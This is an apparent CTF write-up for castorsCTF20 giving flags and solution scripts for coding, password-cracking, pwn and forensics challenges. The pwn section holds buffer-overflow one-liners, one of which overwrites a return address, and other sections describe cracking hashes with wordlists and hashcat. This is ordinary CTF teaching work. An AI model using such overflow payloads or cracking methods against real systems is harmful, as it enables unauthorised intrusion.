





# **castorsCTF20**

<p align="center" >
  <image height=200 src="assets///images//logo.png" >
</p>

Beginner CTF organized by students from Polytechnic University of Puerto Rico for undergraduate students.

Challenges will cover topics from cryptography, reverse engineering, web exploitation, binary exploitation, computer forensics, coding and miscellaneous.

***

# General
(For completion sake)

## Welcome!
Oh jeez! With all the rush I must've dropped the welcome !flag somewhere in the server. If only we had a bot we could command to pick it up.

**castorsCTF{welcome_player_good_luck_and_have_fun}**

**Solution :**
If you type !flag anywhere in the CTF's discord server a bot anwsers you privatly with the flag.

## Readme
I noticed something strange while reading the rules... Must be my imagination.

**castorsCTF{0u7_0f_5173_0u7_0f_m1nd}**

**Solution :**
The flag is found in the readme page after the first place prize in white colored font, you can find it by searching for the flag format.

 ***

# Coding

## Arithmetics

2 plus two = ?

`nc chals20.cybercastors.com 14429`

**castorsCTF(n00b_pyth0n_4r17hm3t1c5}**

**Solution :**
This challenge was really entertaining and in my opinion one of the best challenges in the CTF, when we connect to the server we are asked to answer a simple arithmetic challenge but if we answer it we get the message that we are too slow :



Okay, so we need to write a code that parses the arithmetic question and answer it, simple, so we can write a simple code and that's all... :


Yeah that didn't work, the arithmetic questions can have the names of the digits instead of digits and the names of the operators instead of operators, also, there can be both at the same time, so in the end I wrote a python script which reads the questions and tries to find any occurences of digits or operators in symbols or words and answer the question accordinaly.
The code continues the execution until the format of the flag is given which indicates that we finished the challenge:

```python 3
from pwn import *
import re


def beautify_input(data):
    return str(data)[2:-1].replace('\\n', '\n')


digits = {"one": 1, "two": 2, "three": 3, "four": 4, "five": 5,
          "six": 6, "seven": 7, "eight": 8, "nine": 9, "zero": 0}

operators = {"plus": '+', "minus": '-',
             "divided-by": '//', "multiplied-by": '*'}

host = "chals20.cybercastors.com"
port = 14429
s = remote(host, port)
s.recvuntil("ready.\n")
s.send("\n")

while 1:

    question = s.recvuntil('\n')
    print(beautify_input(question))

    words = str(question).split(" ")
    numbers = []
    for w in words:
        if w in digits.keys():
            numbers.append(digits.get(w))
        elif w in string.digits:
            numbers.append(int(w))

    operator = re.findall(" (\+|\-|\*|\/\/) ", str(question))
    if len(operator) == 0:
        words = str(question).split(" ")
        operator = [operators.get(x)
                    for x in words if x in list(operators.keys())]

    if '-' in operator:
        answer = numbers[0] - numbers[1]
    if '+' in operator:
        answer = numbers[0] + numbers[1]
    if '*' in operator:
        answer = numbers[0] * numbers[1]
    if '//' in operator:
        answer = numbers[0] // numbers[1]

    print(answer)
    s.send(str(answer) + "\n")
    response = beautify_input(s.recv())
    print(response)
    if "castorsCTF" in response:
        break
```
And in the end we get our flag:
```
Wow! You're fast! Here's your flag: castorsCTF(n00b_pyth0n_4r17hm3t1c5}
```
## Base runner
Can you beat The Flash?

`nc chals20.cybercastors.com 14430 `

**castorsCTF[m4j0r_l34gu3_py7h0n_b4s3_runn3r}**

**Solution :**
When I connected to the server I was greeted by the following message:

And got a huge block of binary data. I knew that there is a messege that I need to get from the data so I tried to find out what it is using CyberChef, I eventually got to the following decoding :

So, the data must be transformed from binary to ascii, then from octal to ascii, hex to ascii and in the end from base64 to ascii, for that I wrote the following script:

```python 3
from pwn import *
import base64
def beautify(data):
	return str(data)[2:-1].replace('\\n','\n')

host = "chals20.cybercastors.com"
port = 14430

s = remote(host, port)

s.recvuntil("ready.")
s.send("\n")
s.recv()
try:
	while 1 :
		cipher =  beautify(s.recvuntil("\n"))
		cipher = ''.join([chr(int(x,2)) for x in cipher.split(" ")])
		cipher =  ''.join([chr(int(str(x),8)) for x in cipher.split(" ")])
		cipher =  ''.join([chr(int(str(x),16)) for x in cipher.split(" ")])
		cipher = beautify(base64.b64decode(cipher))
		s.send(cipher + "\n")
		print(beautify(s.recvuntil("!\n")))
except:
	print(beautify(s.recv(1000)))
```
The script reads the data and decode it in the same way I described before and decoded message to the server, it does that until something change with the server's messages, and an exception will occur ( I know that it is bad practice to use exceptions like that but I couldn't find another simple way), when the exception occur the script prints that message.
In the end I got the following message and the flag :

```
Wow! The Flash is impressed! Here's your flag: castorsCTF[m4j0r_l34gu3_py7h0n_b4s3_runn3r}
```

## Glitchity Glitch

If you wanna take your mind off things, you're more than welcome to visit our shop.

`nc chals20.cybercastors.com 14432`

**castorsCTF{$imPl3_sTUph_3h?}**

**Solution :** Bug in VPN sell, we can sell VPN without reducing owned number until we have sufficient money to buy the flag.

```python 3
from pwn import *
import re


def beautify(data):
    return str(data)[2:-1].replace('\\n', '\n').replace("\\t","\t")

def sell_VPN():
	try:
		response = beautify(s.recvuntil("Choice: "))
		money  = re.findall("Your money: [0-9]+\n", response)
		print(money[0].strip())
		s.send("0\n")
		s.recvuntil("Choice: ")
		s.send("1\n")
	except EOFError:
		print("Error Occurred")
		exit(0)


host = "chals20.cybercastors.com"
port = 14432
s = remote(host,port)
s.recvuntil("Choice: ")
s.send("6\n")

for _ in range(996):
	sell_VPN()

s.recvuntil("Choice: ")
s.send("5\n")
print(re.findall("castorsCTF{.*?}", s.recv(1000))[0])
```
## Flag Gods

The flag gods are trying to tell you something...

`nc chals20.cybercastors.com 14431`

**castorsCTF{c0mmun1ng_w17h_7h3_f14g_g0d5}**

**Solution :** Use hamming Distance until flag is printed.

```python 3
from pwn import *
import re


def beautify(data):
    return str(data)[2:-1].replace('\\n', '\n')


host = "chals20.cybercastors.com"
port = 14431

s = remote(host, port)
s.recvuntil("ready.\n")
s.send("\n")
try:
	while 1:
	    s.recvuntil("calibrated.\n")
	    transmitted = beautify(s.recvuntil("\n")).split(":")[1].strip()
	    recieved = beautify(s.recvuntil("\n")).split(":")[1].strip()
	    print(transmitted)
	    print(recieved)
	    s.recvuntil(": ")
	    bytes_transmitted = bin(int.from_bytes(transmitted.encode(), 'big'))[2:]
	    bytes_recieved =	bin(int(recieved,16))[2:].zfill(len(bytes_transmitted))
	    distance = 0
	    for i in range(len(bytes_recieved)):
	    	if bytes_transmitted[i] != bytes_recieved[i]:
	    		distance += 1
	    print(distance)
	    s.send(str(distance) + "\n")
except EOFError:
	print(beautify(s.recv(1000)))

```
***
# Miscellaneous

## Password Crack 1

3c80b091de0981ec64e43262117d618a

Do you rock?

Wrap the flag in castorsCTF{***}

**castorsCTF{irocktoo}**

**Solution :** use Crackstation

## Password Crack 2

867c9e11faa64d7a5257a56c415a42725e17aa6d

You might need this: 653589

Wrap the flag in castorsCTF{***}

**castorsCTF{pi3141592653589}**

**Solution :** use Crackstation

## Password Crack 3

7adebe1e15c37e23ab25c40a317b76547a75ad84bf57b378520fd59b66dd9e12

This one needs to be in the flag format first...

**castorsCTF{theformat!}**

**Solution :** use rockyou and format the wordlist to the flag format, run hashcat

## Gif

A1l3N thought this was funny so we turned it into a challenge.


**castorsCTF{omgsofunnylol}**

**Solution :** slow the gif and copy the numbers, A1Z26 cipher.

***

# Pwn

## abcbof

`nc chals20.cybercastors.com 14424`

[abcdof](https://castorsctf20.ctfd.io/files/4c8ac09b05a5ae24cb2c360d276ba7b8/abcbof?token=eyJ1c2VyX2lkIjo2NDUsInRlYW1faWQiOjI4MSwiZmlsZV9pZCI6MTE2fQ.XtLTCw.GwwXits6_nblPj8cJIeZY5y6uMU)

**castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}**

**Solution :** Name field is unbound and with offset of 256 from the string compared.

`python2 -c "print 'A'*256 + 'CyberCastors'"  | nc chals20.cybercastors.com 14424`

## babybof1

`nc chals20.cybercastors.com 14425`

[babybof](https://castorsctf20.ctfd.io/files/3ac82ebd6662f13d73c9fde638514ddf/babybof?token=eyJ1c2VyX2lkIjo2NDUsInRlYW1faWQiOjI4MSwiZmlsZV9pZCI6MTE1fQ.XtLU6w.C3MSWBiC6pBv3EVPbTNdUN4ylOM)

**Solution :** Buffer overflow for name, change return address to the get_flag function.

`python2 -c "print 'A'*264 + '\xe7\x06\x40\x00\x00\x00\x00\x00\x00'" | nc chals20.cybercastors.com 14425
`

***
# Forensics

## Manipulation

One of our clients sent us the password but we got this instead. He insists the password is in the image, can you help us?

[pooh.jpg](https://castorsctf20.ctfd.io/files/164472a160861568c2f7de7ea946e04a/pooh.jpg?token=eyJ1c2VyX2lkIjo2NDUsInRlYW1faWQiOjI4MSwiZmlsZV9pZCI6MTA5fQ.XtLVhg.O4dwltQ82gB8fcrPX8LDW3DBbX0)

**castorsCTF{H3r3_Is_y0uR_Fl4gg}**

**Solution :** file is xxd dump where first line is last line.



****
